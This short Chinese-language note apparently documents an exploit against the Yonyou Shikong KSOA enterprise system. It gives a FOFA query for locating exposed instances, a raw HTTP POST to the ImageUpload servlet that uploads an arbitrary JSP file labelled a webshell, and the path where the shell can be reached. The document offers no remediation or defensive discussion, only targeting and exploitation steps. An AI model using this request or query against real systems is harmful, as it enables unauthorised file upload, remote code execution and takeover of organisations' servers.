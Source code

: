 ## 资产收集：
fofa：app="用友-时空KSOA"
![](/img/ksoa.png)
## 利用方法：
```
POST /servlet/com.sksoft.bill.ImageUpload?filepath=/&filename=poc.jsp HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close

webshell
```
webshell链接地址：`x.x.x.x/pictures/poc.jsp`
![](/img/ksoa_poc.png)
